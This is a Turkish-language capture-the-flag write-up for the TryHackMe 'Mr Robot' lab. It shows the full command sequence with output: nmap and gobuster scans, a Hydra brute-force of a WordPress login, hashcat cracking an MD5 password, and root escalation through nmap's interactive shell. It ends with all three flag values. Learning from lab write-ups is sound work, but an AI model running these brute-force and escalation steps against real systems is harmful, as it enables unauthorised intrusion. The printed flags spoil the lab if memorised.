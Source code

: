 ```yaml
---
title: "Mr Robot"
description: " https://tryhackme.com/room/mrrobot"
---
```


<img
  src="/images/mrrobot.svg"
  alt="Mrrobot Sv"
  title="Mrrobot Sv"
  style={{ width:"20%" }}
/>

Öncelikle makineyi Nmap ile tarayıp açık portlarını görelim:

```bash
export IP=10.10.181.6
```

Böylece, makinede çalışan web ve ssh servislerini görebiliyoruz.  Makineyi daha detaylı incelediğimizde, robots.txt dosyasında tarayıcılar için gizli iki konum buluyoruz.

```bash
nmap -sS -sV -vv -Pn $IP
PORT    STATE  SERVICE  REASON         VERSION
22/tcp  closed ssh      reset ttl 61
80/tcp  open   http     syn-ack ttl 61 Apache httpd
443/tcp open   ssl/http syn-ack ttl 61 Apache httpd
```

```bash
gobuster dir -u http://10.10.108.126/ -w /usr/share/wordlists/dirb/common.txt
```

![Ekrangörüntüsü2025 09 02210745 Pn](/images/Ekrangörüntüsü2025-09-02210745.png)

Bir sonraki adım bu bilgileri bir tarayıcıyla kontrol etmek olacak

![Resim 2025 09 02 210933428 Pn](/images/resim_2025-09-02_210933428.png)

![Resim 2025 09 02 211118538 Pn](/images/resim_2025-09-02_211118538.png)

```
User-agent: *
fsocity.dic
key-1-of-3.txt
```

Ve işte ilk anahtarımız:

![Resim 2025 09 02 211228270 Pn](/images/resim_2025-09-02_211228270.png)

şifrelenmiş bir parola olabilecek bir base64 dizesi buldum

```bash
hydra -L fsocity.dic -p test 10.10.239.79 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username"
Hydra v9.0 (c) 2019 by van Hauser/THC - Please do not use in military or secret service organizations, or for illegal purposes.

Hydra (https://github.com/vanhauser-thc/thc-hydra) starting at 2020-09-29 20:50:41
[DATA] max 16 tasks per 1 server, overall 16 tasks, 858235 login tries (l:858235/p:1), ~53640 tries per task
[DATA] attacking http-post-form://10.10.239.79:80/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:F=Invalid username
[80][http-post-form] host: 10.10.239.79   login: Elliot   password: test
^CThe session file ./hydra.restore was written. Type "hydra -R" to resume session.
```

Elliot

```bash
sort fsocity.dic | uniq > fsocity_sorted.dic

##ve sonra

hydra -l Elliot -P fsocity_sorted.dic 10.10.239.79 http-post-form "/wp-login/:log=^USER^&pwd=^PASS^&wp-submit=Log+In&redirect_to=http%3A%2F%2Fmrrobot.thm%2Fwp-admin%2F&testcookie=1:S=302"

[80][http-post-form] host: 10.10.157.219   login: "Elliot"  password: "ER28-0652"
```

```bash
python -c "import pty; pty.spawn('/bin/bash')"

daemon@linux:/$ ls -la /home
ls -la /home
total 12
drwxr-xr-x  3 root root 4096 Nov 13  2015 .
drwxr-xr-x 22 root root 4096 Sep 16  2015 ..
drwxr-xr-x  2 root root 4096 Nov 13  2015 robot
daemon@linux:/$ ls -la /home/robot
ls -la /home/robot
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5

export TERM=xterm

cat password.raw-md5
cat password.raw-md5
robot:c3fcd3d76192e4007dfb496cca67e13b

hashcat -m 0 --force hash /usr/share/wordlists/rockyou.txt
hashcat (v5.1.0) starting...

OpenCL Platform #1: The pocl project
====================================
* Device #1: pthread-Intel(R) Xeon(R) CPU E5-1650 v3 @ 3.50GHz, 512/1493 MB allocatable, 2MCU

Hashes: 1 digests; 1 unique digests, 1 unique salts
Bitmaps: 16 bits, 65536 entries, 0x0000ffff mask, 262144 bytes, 5/13 rotates
Rules: 1

Applicable optimizers:
* Zero-Byte
* Early-Skip
* Not-Salted
* Not-Iterated
* Single-Hash
* Single-Salt
* Raw-Hash

Minimum password length supported by kernel: 0
Maximum password length supported by kernel: 256

ATTENTION! Pure (unoptimized) OpenCL kernels selected.
This enables cracking passwords and salts > length 32 but for the price of drastically reduced performance.
If you want to switch to optimized OpenCL kernels, append -O to your commandline.

Watchdog: Hardware monitoring interface not found on your system.
Watchdog: Temperature abort trigger disabled.

* Device #1: build_opts '-cl-std=CL1.2 -I OpenCL -I /usr/share/hashcat/OpenCL -D LOCAL_MEM_TYPE=2 -D VENDOR_ID=64 -D CUDA_ARCH=0 -D AMD_ROCM=0 -D VECT_SIZE=8 -D DEVICE_TYPE=2 -D DGST_R0=0 -D DGST_R1=3 -D DGST_R2=2 -D DGST_R3=1 -D DGST_ELEM=4 -D KERN_TYPE=0 -D _unroll'
Dictionary cache hit:
* Filename..: /usr/share/wordlists/rockyou.txt
* Passwords.: 14344385
* Bytes.....: 139921507
* Keyspace..: 14344385

c3fcd3d76192e4007dfb496cca67e13b:abcdefghijklmnopqrstuvwxyz

Session..........: hashcat
Status...........: Cracked
Hash.Type........: MD5
Hash.Target......: c3fcd3d76192e4007dfb496cca67e13b
Time.Started.....: Tue Sep 29 22:09:23 2020 (0 secs)
Time.Estimated...: Tue Sep 29 22:09:23 2020 (0 secs)
Guess.Base.......: File (/usr/share/wordlists/rockyou.txt)
Guess.Queue......: 1/1 (100.00%)
Speed.#1.........:   123.2 kH/s (0.29ms) @ Accel:1024 Loops:1 Thr:1 Vec:8
Recovered........: 1/1 (100.00%) Digests, 1/1 (100.00%) Salts
Progress.........: 40960/14344385 (0.29%)
Rejected.........: 0/40960 (0.00%)
Restore.Point....: 38912/14344385 (0.27%)
Restore.Sub.#1...: Salt:0 Amplifier:0-1 Iteration:0-1
Candidates.#1....: treetree -> loserface1

Started: Tue Sep 29 22:09:15 2020
Stopped: Tue Sep 29 22:09:24 2020

## abcdefghijklmnopqrstuvwxyz
```

```bash
daemon@linux:/home/robot$ su robot
su robot
Password: abcdefghijklmnopqrstuvwxyz

robot@linux:~$ ls -la
ls -la
total 16
drwxr-xr-x 2 root  root  4096 Nov 13  2015 .
drwxr-xr-x 3 root  root  4096 Nov 13  2015 ..
-r-------- 1 robot robot   33 Nov 13  2015 key-2-of-3.txt
-rw-r--r-- 1 robot robot   39 Nov 13  2015 password.raw-md5
robot@linux:~$ cat key-2-of-3.txt
cat key-2-of-3.txt
822c73956184f694993bede3eb39f959
```

```bash
nmap --interactive

nmap> !sh
!sh
# whoami
whoami
root
# cd /root
cd /root
# ls -l
ls -l
total 4
-rw-r--r-- 1 root root  0 Nov 13  2015 firstboot_done
-r-------- 1 root root 33 Nov 13  2015 key-3-of-3.txt
# cat key-3-of-3.txt
cat key-3-of-3.txt
04787ddef27c3dee1ee161b21670b4e4
```

1. Key `073403c8a58a1f80d943455fb30724b9`
2. Key `822c73956184f694993bede3eb39f959`
3. Key `04787ddef27c3dee1ee161b21670b4e4`

Haneye hayılrı olsun ustam\\